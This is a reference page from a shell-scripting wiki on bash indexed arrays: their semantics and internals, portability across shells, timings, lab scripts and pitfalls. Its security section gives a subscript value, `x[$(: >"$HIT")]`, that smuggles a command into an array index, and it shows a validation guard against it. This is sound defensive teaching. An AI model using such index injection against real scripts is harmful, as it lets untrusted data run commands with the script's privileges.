

# Indexed Arrays

> [!summary] Claim
> A bash indexed array is a sparse, sorted, doubly linked list of strings keyed by a 64-bit index that is computed by evaluating the subscript as an arithmetic expression, so `"${a[@]}"` is the only bash construct that carries a list of arbitrary strings intact, and every subscript is code that the shell runs.

Part of [Bash](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: `a=(x y z)`, `a[i]=v` and `a+=(v)` store strings at integer indices in a sparse list; the subscript is expanded and then evaluated as arithmetic, and `"${a[@]}"` expands to exactly one field per set element (Bash Reference Manual 6.7 Arrays; bash-5.3 array.c).
- Rule: always write `"${a[@]}"` with braces and quotes, count with `${#a[@]}`, iterate indices with `"${!a[@]}"` (never `0` to `${#a[@]}-1`), and quote the argument of `unset 'a[i]'`.
- Trap: an index taken from data is evaluated, so `i='x[$(cmd)]'` runs `cmd` in `${a[$i]}`, `${a[i]}`, `a[$i]=v`, `read "a[$i]"` and `unset "a[$i]"` in every bash from 3.2 to 5.3 (measured in the shell matrix); validate the index as a decimal integer first.
- Portability: POSIX sh has no arrays at all (only `"$@"`); dash and BusyBox ash reject the syntax, posh has element assignment but no `a=(...)`, zsh and yash number from 1, ksh93 reads `a=()` as a compound variable, and mksh wraps indices at 2^32 (measured in the shell matrix).
- When not to use it: for portable `/bin/sh` scripts (use `set --`), for anything needing random access over more than about ten thousand elements (bash lookups walk the list), and for nested or typed data (use awk, Python, or a real language).

## Mental model



The left branch is single-element access: the shell first expands the subscript text like a double-quoted string, then hands the result to the arithmetic evaluator, which may evaluate variable names and nested subscripts again; that second pass is where injected commands run.
A negative result is rebased on one past the highest assigned index, and only then does bash touch the data structure, walking a sorted linked list from the last element it touched (`lastref`) or from the head.
The right branch is whole-array access: `[@]` and `[*]` skip index evaluation entirely and produce the set elements in index order, and only the quoting decides whether they stay separate fields, join on the first `IFS` character, or fall into field splitting and globbing.

## How it works

### What POSIX says

POSIX.1-2024 has no array variables.
A parameter is a name, a positional number, or a special character, and a variable is a parameter denoted by a name (POSIX.1-2024 XCU 2.5).
The positional parameters are the only list the standard gives you: `set --` assigns them, `"$@"` expands them to one field each, and a function call replaces them temporarily (POSIX.1-2024 XCU 2.5.1).
The braces in `${parameter}` are optional except for multi-digit positional parameters or when the next character could extend the name, so in a POSIX shell `$a[1]` is the value of `a` followed by the literal text `[1]`, which pathname expansion may then match against file names (POSIX.1-2024 XCU 2.6.2).
The standard reserves the extension space instead of defining it: `typeset`, `local`, `mapfile` and `readarray` are among the command names whose results are unspecified (POSIX.1-2024 XCU 2.9.1.4), the `export` rationale permits `export x=(1 2 3)` only because the standard grammar would make that input a syntax error (POSIX.1-2024 XCU 2.15, `export`, RATIONALE), and the command-substitution rationale warns that "many shells support arrays with the array index (which can be an expression) in square brackets", so `myfile[0-9]` inside `$((` may parse as arithmetic (POSIX.1-2024 XRAT C.2.6.3).

### Creating arrays in bash

Any variable becomes an indexed array when it is assigned with a subscript, `name[subscript]=value`, or declared with `declare -a name` (Bash Reference Manual 6.7 Arrays).
The compound assignment `name=(v1 v2 ...)` replaces the whole array; each word undergoes the normal expansions, so unquoted words are field split and globbed, and a word of the form `[n]=v` sets index `n`, after which unindexed words continue from `n + 1` ("the index of the element assigned is the last index assigned to by the statement plus one", Bash Reference Manual 6.7 Arrays; `a=([3]=d e)` sets indices 3 and 4, measured in the shell matrix).
`declare -a name[subscript]` is accepted and the subscript ignored (Bash Reference Manual 6.7 Arrays).
`a+=(v ...)` appends after the highest assigned index, not after the element count: with indices 0 and 10 set, the appended element lands at 11 (measured in the shell matrix); `+=` arrived in bash 3.1 (bash-5.3 NEWS, bash-3.1 item i).
`a+=v` without parentheses is a string append to element 0, so `a=(x y); a+=z` gives `xz y` (lab).
Assigning a scalar to an array name, `a=z`, replaces only element 0 and keeps the rest (measured in the shell matrix).
Converting a scalar with `declare -a x` keeps its value as `x[0]` (`convert_var_to_array` in bash-5.3 arrayfunc.c; measured in the shell matrix).
`read -a name` splits a line into elements (bash) and `mapfile` reads lines into elements; see [[The-read-Builtin]] and [[mapfile-and-readarray]].
`local -a` and `declare -a` inside a function make the array local to the function's dynamic scope ([[Namerefs-and-Dynamic-Scope]]).

### The subscript is an arithmetic expression

For an indexed array, bash performs parameter expansion, command substitution, arithmetic expansion and quote removal on the subscript text, then evaluates it as an arithmetic expression; an empty result counts as 0 (Bash Reference Manual 6.7 Arrays).
The code path is `array_expand_index` in bash-5.3 arrayfunc.c, which calls `expand_arith_string` on the subscript text and then `evalexp`, and on failure sets a failure status and jumps to the top level, which aborts a non-interactive shell's current command.
Because it is arithmetic, `a[i++]=x` increments `i` in the current shell, `${a[i]}` reads the variable `i` without a dollar sign, a leading zero means octal (`a[010]` is index 8, and `d=08; ${a[d]}` is the fatal error "value too great for base"), and a variable whose value is itself an expression is evaluated recursively (`i='1+1'; ${a[i]}` is element 2) (lab and shell matrix).
Inside that evaluation, a name followed by `[` is an array reference whose subscript the evaluator expands in turn: `expr_streval` in bash-5.3 expr.c calls `array_variable_part` and `get_array_value` on the token, and the `AV_NOEXPAND` flag that would stop the inner expansion is set only when `array_expand_once` is on and the expression was marked as already expanded (`tflag = (array_expand_once && already_expanded) ? AV_NOEXPAND : 0`).
Every bash 5.2 and later caller passes `eflag = (shell_compatibility_level > 51) ? 0 : EXP_EXPANDED` to `evalexp` (bash-5.3 arrayfunc.c `array_expand_index`, subst.c, execute_cmd.c, test.c), so `already_expanded` is 0 and `shopt -s array_expand_once` does not stop the second expansion of `x[$(cmd)]` inside `${a[$i]}` (measured in the shell matrix on bash 5.3).
bash 5.2 did change one path: "Bash attempts to expand indexed array subscripts only once when executing shell constructs and word expansions" (bash-5.3 NEWS, bash-5.2 item k), and from 5.2 the text that `$i` pastes into `$(( a[$i] ))` reaches the evaluator quoted, so the error token reads `x\[$(...)\]` and the hidden command no longer runs (lab).
`$(( a[i] ))` with a bare name, `${a[$i]}`, `a[$i]=v`, `read "a[$i]"` and `unset "a[$i]"` still run it on 5.3 (lab).

### Negative subscripts

A negative index is rebased: `ind = array_max_index (array_cell (var)) + 1 + ind` in `array_value_internal` and `unbind_array_element`, and `ind = (array_p (entry) ? array_max_index (array_cell (entry)) : 0) + 1 + ind` in `assign_array_element_internal`, and a result still below 0 is "bad array subscript" (bash-5.3 arrayfunc.c).
The rebase uses the maximum index, not the element count, so on a sparse array `${a[-1]}` is the element with the highest index.
Reading with a negative subscript arrived in bash 4.2 ("Negative subscripts to indexed arrays, previously errors, now are treated as offsets from the maximum assigned index + 1", bash-5.3 NEWS, bash-4.2 item p), and assigning and unsetting in bash 4.3 (bash-5.3 NEWS, bash-4.3 item x); bash 3.2 to 4.2 reject `a[-1]=Z` with status 1, or 127 in POSIX mode (lab, and the `bash:4.0` to `bash:4.3` images by hand).

### The data structure

In the default build an `ARRAY` holds `max_index`, `num_elements`, a `head` sentinel and a `lastref` pointer, and each `ARRAY_ELEMENT` holds its `arrayind_t ind`, a `char *value`, and `next` and `prev` links; `arrayind_t` is `intmax_t` (bash-5.3 array.h).
The file comment states the design, "Arrays are sparse doubly-linked lists", and adds that each element stores its own index (bash-5.3 array.c).
`array_insert` appends in O(1) when the new index exceeds `max_index` ("Fast path for the common case of allocating arrays sequentially"), prepends in O(1) below the first index, and otherwise walks from `lastref` or from the head, choosing the head when the target is below half of `lastref`'s index (bash-5.3 array.c, `array_insert`, under `OPTIMIZE_SEQUENTIAL_ARRAY_ASSIGNMENT`, which config-top.h sets to 1).
`array_reference` and `array_remove` use the same roving-pointer walk, so sequential access in either direction costs O(1) per element and random access costs O(n) per element (bash-5.3 array.c); the hand measurement in Numbers and limits shows the quadratic total.
`${#a[@]}` is `num_elements`, which is why it counts set elements and says nothing about the highest index.
bash 5.2 added a configure option, `--enable-alt-array-implementation`, "that optimizes access speed over memory use" (bash-5.3 NEWS, bash-5.2 item u); it stores `struct array_element **elements` with `first_index` and `alloc_size`, `ARRAY_DEFAULT_SIZE` is 1024 (bash-5.3 array.h, array2.c), and no distribution default build was checked here.

### Expanding the whole array

`"${a[@]}"` expands each element to a separate word and to nothing at all when there are no elements; `"${a[*]}"` is one word with the elements joined by the first character of `IFS`; unquoted, the two are the same and their results are field split and globbed, exactly like `"$@"` and `"$*"` (Bash Reference Manual 6.7 Arrays; [[Special-Parameters]], [[Field-Splitting-and-IFS]]).
In bash-5.3 arrayfunc.c `array_value_internal` turns the array into a word list with `array_to_word_list`, then calls `string_list_dollar_star` for a quoted `*` and `string_list_dollar_at` otherwise, the same helpers that expand the positional parameters.
On the right-hand side of a scalar assignment, `s="${a[@]}"` joins with a space in bash, ksh93 and mksh but with the first `IFS` character in zsh and yash (lab).
`${#a[i]}` is the length of one element, `${#a[@]}` the number of elements, and `${!a[@]}` the list of set indices, added in bash 3.0 as a "ksh93-like" expansion (bash-5.3 NEWS, bash-3.0 item v).
`${a[@]:offset:length}` starts at the first set index greater than or equal to `offset`, not at the offset-th element, and a negative offset counts indices back from the end (bash-5.3 array.c, `array_subrange`: "If START corresponds to an unset element (arrays can be sparse), use the first element whose index is >= START").
Pattern operators apply to every element: `${a[@]#x}`, `${a[@]/x/y}` and the case operators map over the list (`array_patsub` and `array_modcase` in bash-5.3 array.c); the `@Q`, `@A` and `@K` transformations are in [[Bash-Parameter-Transformations]].
An array name without a subscript is element 0, and `$a[1]` without braces is element 0 followed by `[1]` (Bash Reference Manual 6.7 Arrays: "The braces are required to avoid conflicts with the shell's filename expansion operators"; lab).

### Sparse arrays, unset, and copying

`unset 'a[i]'` unlinks one element and leaves a gap; unsetting the last element does not unset the variable; `unset a` removes the whole array (Bash Reference Manual 6.7 Arrays; bash-5.3 arrayfunc.c, `unbind_array_element`).
From bash 5.2, `unset 'a[@]'` empties an indexed array but keeps it declared, like `a=()`; at compatibility level 51 or lower it still unsets the variable (bash-5.3 NEWS, bash-5.2 item l; `unbind_array_element` checks `shell_compatibility_level <= 51`; lab).
The word after `unset` is an ordinary argument, so an unquoted `a[0]` is a bracket expression that matches a file named `a0` in the current directory, and `unset a[0]` then unsets the variable `a0` instead (Bash Reference Manual 6.7 Arrays; lab).
Copying with `b=("${a[@]}")` renumbers the elements from 0, so gaps disappear; `typeset -p a` (or `declare -p a`) prints a definition with explicit indices that recreates the array exactly, and since bash 4.4 it omits the outer single quotes (`declare -a a=([0]="x" [1]="y z")` versus 3.2's `declare -a a='([0]="x" [1]="y z")'`) (bash-5.3 NEWS, bash-4.4 item q; lab).

### Arrays and the process boundary

An `execve` environment is a vector of `name=value` strings, so there is nowhere to put an array.
bash skips array variables when it builds the environment (`continue; /* XXX array vars cannot yet be exported */` in bash-5.3 variables.c, `make_env_array_from_var_list`, unless `ARRAY_EXPORT`, which config-top.h leaves commented out), and the manual's BUGS section says "Array variables may not (yet) be exported" (bash-5.3 doc/bash.1).
Other shells chose differently: ksh93 and mksh export element 0, and yash exports the elements joined by colons, as its manual documents (lab; yash manual, Arrays).
For the same reason a function cannot return an array; it can fill a caller's array through a name reference ([[Namerefs-and-Dynamic-Scope]]) or print elements for `mapfile` to read.
Elements appended inside a pipeline stage that runs in a subshell are lost when the stage exits.
bash runs "each command in a multi-command pipeline" "in its own subshell" (Bash Reference Manual 3.2.3 Pipelines), so the appends in `cmd | while read ...; do a+=(...); done` vanish in bash, and the lab shows the same in mksh and `zsh --emulate sh`.
ksh93 and native zsh run the last stage in the current shell and keep the appends (lab).
bash's `lastpipe` option ("If set, and job control is not active, the shell runs the last command of a pipeline not executed in the background in the current shell environment", Bash Reference Manual 4.3.2 The Shopt Builtin) keeps them in a non-interactive bash 4.2 or later (bash-5.3 NEWS, bash-4.2 item t; lab; see [[Pipelines-and-And-Or-Lists]] and [[Subshells-and-the-Execution-Environment]]).

### Under set -u

An empty array is not an unset variable, but bash before 4.4 treated `"${a[@]}"` with no elements as unbound and exited under `set -u`; bash-4.4-rc2 changed it: "Using `${a[@]}` or `${a[*]}` with an array without any assigned elements when the nounset option is enabled no longer throws an unbound variable error" (bash-5.3 CHANGES).
macOS still ships bash 3.2 as `/bin/bash`, so `set -u` scripts that expand possibly-empty arrays there need `${a[@]+"${a[@]}"}` (lab: status 127 on bash 3.2, success on 4.4 and later); mksh and posh also fail with "parameter not set" (lab).

### Other shells

ksh93 invented the model bash copied: `set -A name value ...` and `name=(value ...)` assign, subscripts are arithmetic, negative subscripts are offsets from the maximum index plus one, and "The value of all non-negative subscripts must be in the range of 0 through 4,194,303" (ksh93u+m sh.1, Arrays).
ksh93 also has compound variables, and `a=()` creates an empty compound variable (`typeset -C a=()`), not an empty array, so `${#a[@]}` is 1 (lab, ksh93u+ 2012 and ksh93u+m 1.0.10); `typeset -a a` is the ksh93 way to declare an empty indexed array.
mksh documents that "Array indices range from 0 to 4294967295 (2^32-1), inclusive", and its arithmetic is 32-bit, so `a[-1]=Z` stores at index 4294967295 and `a[4294967296]` is index 0 (mksh(1), Parameters; lab); mksh has no `${a[@]:off:len}` slicing, no per-element `${a[@]/x/y}`, no `[n]=v` inside `a=(...)` (it stores the literal word `[3]=d`), and its `read -a` stores character codes while `read -A` stores words (mksh(1), `read`; lab).
posh keeps pdksh's arrays without the ksh syntax for building them: `a[i]=v`, `${a[i]}`, `${a[@]}` and `${#a[@]}` work, but `a=(...)`, `set -A`, `${!a[@]}` and negative subscripts do not, and the index limit is `#define ARRAYMAX 1023` (posh sh.h; lab).
zsh numbers from 1 unless `KSH_ARRAYS` is set, which the sh and ksh emulations set by default; without it `$a` is every element and a read of index 0 is empty while a write to index 0 is an error (zsh manual 15.2.1 Array Subscripts and 16.2 Description of Options, `KSH_ARRAYS <K> <S>`; lab).
zsh arrays are dense: assigning past the end fills the gap with empty strings (`a[100000]=x` creates 100000 elements), `unset 'a[2]'` only empties the element, `a[2]=()` deletes it and shifts the rest, and `${!a[@]}` is a bad substitution (zsh manual 15.2.2 Array Element Assignment; lab).
yash also numbers from 1, has no `a[i]=v` element assignment (it is a command name), edits elements with the `array` builtin (`array -s`, `-d`, `-i`), gives the element count as `${a[#]}` while `${#a[@]}` is the length of each element, and supports arrays only outside its POSIXly-correct mode (yash manual, Arrays and the array built-in; lab).
dash and BusyBox ash implement the POSIX language only: `a=(x)` is a syntax error and `a[0]=x` is looked up as a command name (lab).

## Numbers and limits

| Quantity | Value | Source |
| --- | --- | --- |
| Index type in bash | `intmax_t`, so 0 to 9223372036854775807 on 64-bit builds | bash-5.3 array.h; lab asserts `a[9223372036854775807]=x` |
| Append past the bash maximum | bash 3.2 to 5.2 store the next element at -9223372036854775808; bash 5.3 rejects it as "bad array subscript" | lab (Alpine bash 3.2, 4.4, 5.1, 5.2, 5.3; Debian 5.2.37; macOS 5.3.15) |
| Index range in mksh | 0 to 4294967295; 4294967296 wraps to 0 and -1 is 4294967295 | mksh(1) (as of 2026-11); lab on R59 2020/10/31 and R59 2025/04/26 |
| Index range in ksh93 | 0 to 4194303; 4194304 is "subscript out of range" | ksh93u+m sh.1 (as of 2026-11); lab on ksh93u+ 2012-08-01 and 93u+m/1.0.10 |
| Index range in posh | 0 to 1023 (`ARRAYMAX`) | posh sh.h (as of 2026-11); lab on posh 0.14.1 |
| zsh allocation | `a[100000]=x` creates 100000 elements (100001 under `--emulate sh`) | lab on zsh 5.9 and 5.9.2 |
| bash alt implementation default size | `ARRAY_DEFAULT_SIZE` 1024 | bash-5.3 array.h |
| Arrays in POSIX sh | 0; the positional parameters are the only list | POSIX.1-2024 XCU 2.5 |
| bash 5.3.15, 160000 elements, build by `a[i]=$i` | 0.245 s, then 0.325 s | measured by hand 2026-11-10 and re-run 2026-11-13, Apple silicon Mac, macOS (Darwin 27.2, then 27.3), not asserted by the lab |
| bash 5.3.15, 160000 sequential reads | 0.299 s, then 0.371 s | same runs |
| bash 5.3.15, 160000 pseudo-random reads | 10.406 s, then 9.879 s, of which the index arithmetic alone is 0.400 s, then 0.483 s | same runs; at 80000 elements 2.382 s versus 0.279 s, then 2.456 s versus 0.252 s, so doubling n roughly quadruples the cost |
| bash 3.2.57 (macOS `/bin/bash`), 40000 sequential reads | 1.176 s, then 1.124 to 1.144 s, versus 0.069 to 0.087 s in bash 5.3.15 | same machine and runs; from 10000 to 40000 elements the 3.2 sequential cost grows 3.3x and then 3.7x per doubling (re-run: 3.2x and then 3.8x) |

The timing script built the array with a `while` loop, then summed `a[i]` for `i` from 0 upward, then summed `a[j]` for `j` from a linear congruential sequence modulo `n`, and timed the same loop without the array read separately (bash `time` with `TIMEFORMAT=%R`, one run per size; the second set of numbers is a full re-run on 2026-11-13, and the two runs agree within about 25 percent, so read the figures as orders of magnitude and the doubling ratios, not as benchmarks).
The `lastref` roving pointer arrived in bash 4.1: bash-4.0 array.c has no `lastref`, bash-4.1 array.c adds it as one file-scope `static ARRAY_ELEMENT *lastref`, the bash-4.1-alpha entry in CHANGES reads "Made some internal changes that dramatically speeds up sequential indexed array access" (bash-5.3 CHANGES, bash-4.1-alpha item t), and bash 5.0 moved it into each `ARRAY` (bash-5.0 array.h), so the quadratic 3.2 sequential timing above is consistent with walking from the head on every read.

## Portability

| Shell | `a=(x y)` | First index; `$a` | Gaps and `${!a[@]}` | `a[-1]` | Empty `"${a[@]}"` under `set -u` | `export a` | Command in `i` runs in `${a[$i]}` |
| --- | --- | --- | --- | --- | --- | --- | --- |
| POSIX sh | no arrays (XCU 2.5) | n/a | n/a | n/a | n/a | n/a | n/a |
| bash 3.2 (macOS `/bin/bash`) | yes | 0; element 0 | sparse; yes | read and write are errors | error, status 127 | not exported | yes |
| bash 4.4 to 5.3 | yes | 0; element 0 | sparse; yes | last element | allowed | not exported | yes |
| zsh 5.9 native | yes | 1; every element | dense; bad substitution | last element | allowed | not exported | no |
| zsh `--emulate sh` | yes | 0; element 0 | dense; bad substitution | last element | allowed | not exported | no |
| dash 0.5.12 | syntax error | n/a | n/a | n/a | n/a | n/a | n/a |
| ksh93u+ 2012 (macOS `/bin/ksh`) | yes; `a=()` is compound | 0; element 0 | sparse; yes | last element | allowed | element 0 | yes |
| ksh93u+m 1.0.10 | yes; `a=()` is compound | 0; element 0 | sparse; yes | last element | allowed | element 0 | no, "arithmetic syntax error" |
| mksh R59 | yes | 0; element 0 | sparse; yes | index 4294967295 | error, status 1 | element 0 | yes |
| yash 2.58.1 | yes, not in POSIX mode | 1; every element | no `a[i]=v`; syntax error | readable, not assignable | allowed | `x:y` | no, arithmetic error |
| posh 0.14.1 | syntax error; `a[i]=v` works | 0; n/a | sparse; bad substitution | "subscript out of range" | error, status 1 | n/a | yes |
| BusyBox ash 1.37.0 | syntax error | n/a | n/a | n/a | n/a | n/a | n/a |

Every cell except the POSIX row is asserted by the lab in the shell matrix (macOS host, Alpine 3.22, Debian 13), apart from three that come from by-hand probes in the same images: yash reading `${a[-1]}` (it prints the last element), native zsh `a[-1]` (the lab's script stops earlier at `a[0]=x`; by hand, `a=(x y z); a[-1]=Z` gives `x y Z` on zsh 5.9.2), and posh running a command hidden in `${a[$i]}` (the lab's script cannot run under posh because it uses `a=(...)`, but the lab's assignment test shows posh running the same payload through `a[$i]=v`).
No utility behavior is involved except `printenv`, which the matrix ran as GNU coreutils (Debian), BusyBox (Alpine) and the macOS userland; uutils was not tested.

## Worked example

The [lab](../labs/04-indexed-arrays/) has two scripts and 31 bats tests that assert each shell family's behavior.
The canonical use of an array is to build a command line whose arguments contain spaces, glob characters or nothing at all, which no string variable can carry.
This is `argv-array.sh`, verbatim:

```bash
#!/usr/bin/env bash
# argv-array.sh NAME [ARG...]: build a command line in an indexed array, then run it.
# Each element stays exactly one argument: spaces, glob characters and empty strings survive,
# because "${cmd[@]}" expands to one field per element with no field splitting or globbing.
# The command is printf '<%s>', so the output shows the exact argument boundaries.
# Example: argv-array.sh 'my name' 'a b.txt' '*' ''
#   -> <--name=my name><a b.txt><*><>
#   -> 6 words
cmd=(printf '<%s>')
cmd+=("--name=$1")
shift
for arg in "$@"; do
  cmd+=("$arg")
done
"${cmd[@]}"
printf '\n%d words\n' "${#cmd[@]}"
```

Expected output of `bash argv-array.sh 'my name' 'a b.txt' '*' ''`, which the lab asserts for bash, ksh93, mksh, zsh and `zsh --emulate sh` (yash cannot parse `+=` on an array, and dash, BusyBox ash and posh cannot parse `cmd=(...)`):

```text
<--name=my name><a b.txt><*><>
6 words
```

The second script, `index-guard.sh`, reads one element of `colors=(red green blue)` either directly (`raw`) or after validating the index (`guarded`); this is its guarded branch, verbatim:

```bash
  guarded)
    case $idx in
      '' | *[!0-9]* | 0?*) exit 2 ;;
      *) ;;
    esac
    [ "${#idx}" -le 9 ] || exit 2
    # The count of elements, spelled so that yash (where ${#colors[@]} lists lengths) agrees.
    set -- "${colors[@]}"
    [ "$idx" -lt "$#" ] || exit 2
    printf '%s\n' "${colors[idx]}"
    ;;
```

The lab asserts these results (status in brackets):

```text
$ index-guard.sh guarded 1                     -> green   [0]  (red in native zsh and yash)
$ index-guard.sh guarded 01                    ->         [2]
$ index-guard.sh guarded 4294967296            ->         [2]
$ index-guard.sh guarded 'x[$(: >"$HIT")]'     ->         [2]  no file created
$ index-guard.sh raw     'x[$(: >"$HIT")]'     ->         [0]  file created (bash, mksh)
```

The nine-digit limit is not decoration: mksh's `[` compares in 32-bit arithmetic, so `[ 4294967296 -lt 3 ]` is true there, and without the limit the guard would accept the index and mksh would wrap it to element 0 (measured in the matrix; the lab's mutation run removes the line and the guard test then fails under mksh).

## Pitfalls

> [!warning] Counting instead of listing indices
> Trigger: `for ((i = 0; i < ${#a[@]}; i++)); do echo "${a[i]}"; done` after any `unset 'a[i]'` or explicit-index assignment.
> Symptom: some elements are skipped and empty strings are printed for the gaps, because `${#a[@]}` is the number of set elements (`num_elements`), not one past the highest index; with `a[0]=x; a[5]=f` the count is 2 and the indices are `0 5` (lab).
> Fix: iterate `for i in "${!a[@]}"`, or iterate values with `for v in "${a[@]}"`; renumber with `a=("${a[@]}")` when positions must be dense.

> [!warning] Empty arrays under set -u on macOS bash 3.2
> Trigger: `set -u` plus `cmd "${args[@]}"` where `args` may be empty, run by macOS `/bin/bash` 3.2.57.
> Symptom: `args[@]: unbound variable` and the script exits with status 127; the same script works on bash 4.4 and later (lab), and mksh and posh fail the same way with "parameter not set".
> Fix: `cmd ${args[@]+"${args[@]}"}`, or require bash 4.4 and check `BASH_VERSINFO` at startup ([[Bash-3-2-on-macOS]]).

> [!warning] An empty array still runs printf once
> Trigger: `printf '%s\n' "${a[@]}"` to print a list that may be empty.
> Symptom: one empty line, because `printf` with a format and no arguments runs the format once, even though `"${a[@]}"` produced zero fields (`set -- "${a[@]}"` gives `$#` = 0) (lab).
> Fix: guard with `(( ${#a[@]} ))` or `[ "${#a[@]}" -gt 0 ]` before printing.

> [!warning] An unquoted subscript argument is a glob
> Trigger: `unset a[0]` (or `read a[0]`, `declare a[0]=x`) in a directory that contains a file named `a0`.
> Symptom: the shell matches the bracket expression `a[0]` against the file, runs `unset a0`, and the array element survives; without the file the same line works, so the bug depends on the working directory (lab).
> Fix: quote it, `unset 'a[0]'`, as the bash manual says; ShellCheck 0.11.0 reports the unquoted form as SC2184, "Quote arguments to unset so they're not glob expanded" (run here).

> [!warning] Indices taken from data are octal or fatal
> Trigger: an index parsed from a date, a zero-padded ID, or a fixed-width field, such as `m=08; echo "${days[m]}"`.
> Symptom: `010` silently selects element 8, and `08` or `09` aborts the command with "value too great for base" (lab, every bash); ksh93 and mksh read the same text as decimal 10 and 8.
> Fix: strip leading zeros or force base 10 with `$((10#$m))` after validating that `m` is all digits.

> [!warning] Appends lost in a pipeline
> Trigger: `producer | while read -r line; do lines+=("$line"); done; echo "${#lines[@]}"`.
> Symptom: the count is 0 in bash and mksh, because the loop ran in a subshell; the same code works in ksh93 and native zsh (lab).
> Fix: `mapfile -t lines < <(producer)` ([[mapfile-and-readarray]]), `while ...; done < <(producer)`, or `shopt -s lastpipe` in a non-interactive bash 4.2 or later (lab).

> [!warning] String append to an array
> Trigger: `a+=z` meaning to add an element.
> Symptom: element 0 becomes `xz`, the array length is unchanged (lab).
> Fix: `a+=(z)`; in native zsh `a+=z` happens to append an element, so code tested only in zsh hides the bug.

> [!warning] zsh and yash number from 1, ksh93 makes a=() compound
> Trigger: running bash array code under native zsh, yash, or ksh93.
> Symptom: in zsh, `${a[0]}` is empty and `a[0]=x` is "assignment to invalid subscript range"; in yash `${#a[@]}` prints the length of each element; in ksh93, `a=()` followed by `printf '<%s>\n' "${a[@]}"` prints `<(` and `)>` (lab).
> Fix: in zsh code, `emulate -L ksh` or `setopt KSH_ARRAYS` inside the function; in ksh93, declare an empty array with `typeset -a a`; for code that must run in several shells, count with `set -- "${a[@]}"; $#`.

The evaluation is documented shell behavior, so the CVEs I found are in scripts that feed unvalidated data to an arithmetic context, not in the shells.
CVE-2026-119335 (Pi-hole before 6.5, published 2026-10-30) is a bash `[[ "$pid" -eq "-1" ]]` that recursively evaluates array subscripts in an attacker-written PID file and runs command substitution as root, and CVE-2026-121751 (nvm 0.39.6 through 0.40.8, published 2026-11-04) is a mirror-supplied `lts/-N` value that reaches `$((N+1))` where a subscript such as `path[$(cmd)1]` runs `cmd` (the two hits of an NVD keyword search for bash array subscripts, as of 2026-11; the search was narrow, so this is not a census).

## Security and robustness

The subscript of an indexed array is code: it goes through command substitution and then arithmetic evaluation, and the arithmetic evaluator re-evaluates names and expands nested subscripts.
The lab passes `x[$(: >"$HIT")]` as an index and checks for the marker file.
In every bash from 3.2 to 5.3 the command runs through `${a[$i]}`, `${a[i]}` with a bare name, `$(( a[i] ))`, `a[$i]=v`, `read -r "a[$i]"` and `unset "a[$i]"`; bash 5.2 closed only the `$(( a[$i] ))` path, where pasted text now reaches the evaluator quoted (lab).
mksh runs it on every path, ksh93u+ 2012 runs it, ksh93u+m 1.0.10 rejects it with "arithmetic syntax error" on every path, zsh and `zsh --emulate sh` run it only when the payload text is pasted into `$(( ))` or passed to `read` and `unset` (lab for `zsh --emulate sh`, by hand for native zsh, whose lab run stops earlier at index 0), posh runs it on assignment (lab) and in `${a[$i]}` (by hand), and yash's arithmetic does not accept array references at all (lab).
`shopt -s array_expand_once` (bash 5.3; `assoc_expand_once` before it) does not prevent the `${a[$i]}` case, for the source reason given in How it works (measured in the shell matrix).
The consequence for any script that indexes an array with a value from a file, a URL, an environment variable, or a command-line argument: that value can run arbitrary commands with the script's privileges, which is a [[Command-Injection]] in a place few reviewers look.
The robust rule is to validate before use with a `case` that admits only canonical decimal digits, a length bound so that 32-bit shells cannot wrap the value, and a range check against the element count; `index-guard.sh` is that rule, and the lab shows it blocks the payload in every array shell.
For keys that are really strings, use an associative array, whose subscripts are not evaluated as arithmetic ([[Associative-Arrays]]).
Arrays are also the injection fix for the opposite problem: a command built as a string must be re-parsed with `eval` or split unquoted, both of which reinterpret data as syntax, while a command built in an array and run as `"${cmd[@]}"` passes each element as exactly one argument with no splitting, globbing or re-parsing (lab, `argv-array.sh`; [[The-eval-Builtin]]).
Never `eval` the output of `typeset -p` that came from an untrusted source: it is shell code, and its values are only as safe as their quoting.

## The principal's view

The decision is not whether arrays are useful; it is which shell the organization standardizes on, because arrays are where bash, ksh93, mksh, zsh and yash diverge most and where POSIX offers nothing.
A team that writes bash should say which bash: 4.4 is the floor that makes `set -u` and empty arrays coexist, 5.2 is the floor for `unset 'a[@]'` emptying an array, and macOS's 3.2 is a separate target that rules out negative subscripts, `[[ -v a[i] ]]`, `mapfile` and namerefs ([[Bash-Version-History]], [[Bash-3-2-on-macOS]]).
A team that must run under `/bin/sh` has exactly one list, `"$@"`, which is enough for building one command line per function but not for two lists at once.
